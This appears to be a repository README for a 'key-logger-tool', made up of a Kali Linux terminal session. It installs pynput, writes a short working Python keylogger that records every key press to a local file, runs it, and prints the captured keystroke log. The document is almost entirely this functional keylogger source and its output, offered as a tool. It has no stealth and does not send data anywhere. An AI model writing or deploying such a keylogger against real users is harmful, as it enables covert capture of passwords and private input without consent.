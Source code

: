 # key-logger-tool
┌──(kali㉿kali)-[~]
└─$ sudo apt install python3 python3-pip python3-venv -y
[sudo] password for kali: 
python3 is already the newest version (3.13.5-1).
python3-pip is already the newest version (25.2+dfsg-1).
python3-venv is already the newest version (3.13.5-1).
The following packages were automatically installed and are no longer required:
  libbluray2  libgdata-common  libgeos3.13.1  libogdi4.1          libsframe1   libsoup-2.4-1      libtheora0     libtheoraenc1  libvpx9                python3-wheel-whl 
  libgdal36   libgdata22       libhdf4-0-alt  libqt5ct-common1.8  libsigsegv2  libsoup2.4-common  libtheoradec1  libudfread0    python3-packaging-whl
Use 'sudo apt autoremove' to remove them.

Summary:
  Upgrading: 0, Installing: 0, Removing: 0, Not Upgrading: 3
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ python3 -m venv venv
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ source venv/bin/activate
                                                                                                                                                                                                                                            
┌──(venv)─(kali㉿kali)-[~]
└─$ pip install pynput
Requirement already satisfied: pynput in ./venv/lib/python3.13/site-packages (1.8.1)
Requirement already satisfied: six in ./venv/lib/python3.13/site-packages (from pynput) (1.17.0)
Requirement already satisfied: evdev>=1.3 in ./venv/lib/python3.13/site-packages (from pynput) (1.9.2)
Requirement already satisfied: python-xlib>=0.17 in ./venv/lib/python3.13/site-packages (from pynput) (0.33)
                                                                                                                                                                                                                                            
┌──(venv)─(kali㉿kali)-[~]
└─$ nano keylogger.py
from pynput import keyboard

log_file = "keylog.txt"

def on_press(key):
    try:
        with open(log_file, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        with open(log_file, "a") as f:
            f.write(f" {key} ")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()

                                                                                                                                                                                                                                            
┌──(venv)─(kali㉿kali)-[~]
└─$ python3 keylogger.py
^CTraceback (most recent call last):
  File "/home/kali/keylogger.py", line 14, in <module>
    listener.join()
    ~~~~~~~~~~~~~^^
  File "/home/kali/venv/lib/python3.13/site-packages/pynput/util/init_.py", line 295, in join
    super(AbstractListener, self).join(timeout, *args)
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.13/threading.py", line 1094, in join
    self._handle.join(timeout)
    ~~~~~~~~~~~~~~~~~^^^^^^^^^
KeyboardInterrupt

                                                                                                                                                                                                                                            
┌──(venv)─(kali㉿kali)-[~]
└─$ cat keylog.txt
 Key.enter  Key.ctrl  Key.alt  Key.alt tbgyvuyvbh Key.space bhouvuv Key.enter cd Key.enter 6f7 Key.backspace  Key.backspace  Key.backspace  Key.backspace  Key.backspace  Key.backspace ls Key.enter  Key.alt  Key.tab  Key.enter  Key.enter  Key.enter  Key.ctrl c Key.backspace  Key.backspace hgvdgch Key.enter jhbshveggdwvc Key.enter  Key.ctrl cc Key.backspace  Key.ctrl cy Key.shift HA Key.caps_lock ebewgyiuhrugiuahiu Key.caps_lock iuogfpogkluhihdiojui[odpuhuphgdiuhuhpus]]iojkjgnn[dihb[o]]htilidluhdiuuigiuhihg Key.enter  Key.ctrl c Key.ctrl  Key.ctrl  Key.alt tiokjbjva'n'j'fjv'nqejng[ligbli]knbgwhvknkj Key.enter yviio Key.enter  Key.ctrl c                                                                                                                                                                                                                                            
┌──(venv)─(kali㉿kali)-[~]
└─$
